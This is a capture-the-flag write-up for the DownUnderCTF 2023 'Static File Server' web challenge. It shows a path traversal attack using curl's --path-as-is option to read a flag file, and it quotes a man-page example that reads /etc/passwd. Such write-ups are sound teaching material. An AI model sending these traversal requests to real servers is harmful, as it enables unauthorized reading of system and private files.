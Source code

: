 ```yaml
---
title: DownUnderCTF 2023 - Static File Server
date: Sun Sep  3 12:42:50 PM +04 2023
categories: [Writeup]
tags: [ctf,downunderctf,downunderctf2023,web]
---
```



## Description

Here's a simple Python app that lets you view some files on the server.

Author: joseph

Application: [https://web-static-file-server-9af22c2b5640.2023.ductf.dev](https://web-static-file-server-9af22c2b5640.2023.ductf.dev/)<br>
Downloads: [static-file-server.zip](https://play.duc.tf/files/72096b2308e1e1565d2b894f268226cd/static-file-server.zip?token=eyJ1c2VyX2lkIjoyNDI4LCJ0ZWFtX2lkIjoxMjc1LCJmaWxlX2lkIjoxMDJ9.ZPRDyA.FppA_1YAkl10N8Zk3prVVnq2jdU)

## Analysis

Application is not much, it has 2 files and you can visit them. When I play around challenges I first try black box testing and then white box testing. Most application you will encounter will be black box type, meaning you don't have the source code, just application.

With that let's visit link shown on website: [not the flag](https://web-static-file-server-9af22c2b5640.2023.ductf.dev/files/not_the_flag.txt):

```html
The real flag is at /flag.txt
```

If you have encountered this types of challenges then [Path traversal](https://book.hacktricks.xyz/pentesting-web/file-inclusion) should be the first thing you try.

Request: 
```
http://web-static-file-server-9af22c2b5640.2023.ductf.dev/files/../../../../../../flag.txt
```

Respone:
```
URL: https://web-static-file-server-9af22c2b5640.2023.ductf.dev/flag.txt
Content: 404: Not Found
```

Browser is   doing something unwanted,  its  discarding `../` and translates path as relative.

Let's fix that with cUrl: [man page](https://curl.se/docs/manpage.html)

```
--path-as-is
	
	Tell curl to not handle sequences of /../ or /./ in the given URL path. Normally curl will squash or merge them according to standards but with this option set you tell it not to do that.

	Providing --path-as-is multiple times has no extra effect. Disable it again with --no-path-as-is.

	Example:
		curl --path-as-is https://example.com/../../etc/passwd
```

## Solution

```bash
➜ curl https://web-static-file-server-9af22c2b5640.2023.ductf.dev/files/../../../../flag.txt --path-as-is
DUCTF{../../../p4th/tr4v3rsal/as/a/s3rv1c3}
```

Flag: DUCTF{../../../p4th/tr4v3rsal/as/a/s3rv1c3}
{: .prompt-tip }